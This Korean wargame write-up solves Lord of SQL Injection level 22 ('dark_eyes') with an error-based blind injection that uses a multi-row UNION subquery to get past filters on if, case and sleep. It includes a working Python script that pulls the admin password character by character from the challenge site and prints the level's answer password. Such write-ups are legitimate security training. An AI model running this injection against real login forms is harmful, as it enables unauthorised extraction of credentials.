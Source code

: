 ```yaml
---
title: LOS - 22번 dark_eyes
category: [Wargame, Lord of SQL Injection]
---
```


# [22] dark_eyes

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FQZVKB%2FbtrnR2UVQMP%2FtzRVYHPoeR2N10uYesKs8k%2Fimg.png">

## 풀이

이번 문제에서는 col, if, case, when, sleep, benchmark를 필터링하고 있다.

<br>

전체적인 구조는 이전 문제와 크게 다르지 않은 Error Based Blind SQLi 문제이다.

* 이전 문제와는 달리 에러가 발생할 시 에러 메시지를 보여주지는 않지만 exit됨으로 인해 빈 화면이 출력되므로 그 자체로 에러 여부 판별이 가능하다.

<br>

이번 문제의 핵심은 if문이나 case문을 사용하지 않고 특정 조건을 충족하는 경우에 에러를 발생시켜주는 것에 있다.

<br>

이래저래 대체할 방법을 찾아봤지만... 방법은 딱 하나인 것 같았다.

**서브쿼리**를 이용하는 것이다.

<br>

사용할 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
```

① **SELECT 1 UNION SELECT 2**

- 서브쿼리가 둘 이상의 row를 반환하지 못한다는 특성을 이용하여, 해당 요소가 실행될 시 에러가 발생하게끔 유도한다.

② **where id='admin' and length(pw)={num}**

- pw의 길이가 일치할 시 where절이 True가 되므로 ①번 요소가 실행되고, 그로 인한 에러가 발생하게 된다.

- 에러의 발생 유무를 판별하여 pw의 길이와 일치하는 num을 찾아낼 수 있다.

<br>

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

또한 이전 문제들과 마찬가지로, 2진 탐색을 적용하여 검색 속도를 높인다.

 
<br>
 

**LoS 22번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id='admin' and length(pw)={num}) %23"
    if("query" not in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))>={middle}) %23"
        if("query" not in send(param)):
            param=f"?pw=' || (SELECT 1 UNION SELECT 2 where id=\"admin\" and ascii(substr(pw,{len},1))={middle}) %23"
            if("query" not in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcDNwU8%2FbtrnLHEJjIe%2FQayaMUVXj93KSZTUwujn3K%2Fimg.png">


Blind 공격 결과, pw는 `5a2f5d3c` 임을 확인할 수 있다.

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FobIoV%2FbtrnN22UR9z%2FWb6jsJDojQmhcK1tCizpUk%2Fimg.png">